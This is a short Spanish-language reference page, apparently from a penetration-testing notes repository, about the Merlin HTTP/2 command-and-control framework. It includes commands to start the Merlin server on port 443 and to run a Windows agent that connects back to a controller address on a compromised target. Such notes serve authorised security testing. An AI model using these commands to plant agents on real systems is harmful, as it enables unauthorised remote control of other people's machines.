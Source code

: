 ### **Post-Explotación/Frameworks/Merlin.md**

# Merlin

## Descripción

**Merlin** es una herramienta de comando y control (C2) multiplataforma que utiliza HTTP/2 para comunicaciones, ofreciendo un canal cifrado y eficiente. Es utilizado en pruebas de penetración para gestionar agentes en sistemas comprometidos.

## Uso

Iniciar el servidor Merlin y desplegar agentes en los sistemas objetivo.

### Opciones principales

- **Servidor**:

  ```bash
  ./merlinServer
  ```

- **Agente**:

  Generar y ejecutar el binario del agente en el sistema objetivo.

## Ejemplos

- Iniciar el servidor:

  ```bash
  ./merlinServer -port 443
  ```

- Generar un agente para Windows:

  ```bash
  ./merlinAgent.exe -url https://192.168.1.100:443
  ```

- Ejecutar comandos y tareas desde la consola del servidor.

